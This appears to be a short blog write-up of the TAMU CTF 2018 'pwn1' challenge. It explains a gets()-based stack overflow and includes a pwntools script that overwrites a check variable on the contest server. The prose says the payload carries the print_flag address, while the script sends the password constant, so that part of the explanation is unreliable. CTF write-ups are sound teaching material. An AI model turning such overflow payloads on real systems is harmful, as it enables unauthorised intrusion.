 ```yaml
---
title:  TAMU CTF 2018 - PWN1
author: zangobot
layout: post
category: ctf
tags: [ ctf, springchicken, challenge ]
---
```

pwn1 asks the user to enter a passphrase.

```
This is a super secret program
Noone is allowed through except for those who know the secret!
What is my secret?

WHAT_DO_I_KNOW?

That is not the secret word!
```
So, I assume there will be some check somewhere.

I checked the results of [strings](https://man.cx/strings(1)) command to see if there is a password hardcoded into the program.

**Nope**, but nice try.

It's time for giving [radare2](https://rada.re/r/) a chance. Let's analyse...

The input is useless because is stored in `eax`... but the check with the password (which is `\xf0\x07\xba\x11`) is performed with a local variable set to 0.

So, how can I pwn it?

**Easy peasy!** there is a gets without length check: this means that I can write portions of the stack and do whatever I want with this program.

**Even better**, there is no canary!

I can write the password in the correct memory cell.
The exploit is some glibberish and than the address of the `print_flag` function.

BE CAREFUL: I assumed [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization) was disabled on server.
So I opened a shell with ASLR disabled, got the address of `print_flag` and appended to the exploit string.
My assumption was correct! There is no ASLR on server side.

I used pwntools for crafting and simplicity. This is the script:

```
from pwn import *
exc = remote('pwn.ctf.tamu.edu',4321)
exc.sendline('A'*23 + p32(0xf007ba11))
exc.interactive()
```

23 is the lenght of the input string buffer in stack (found with radare2).

Flag captured ;-)
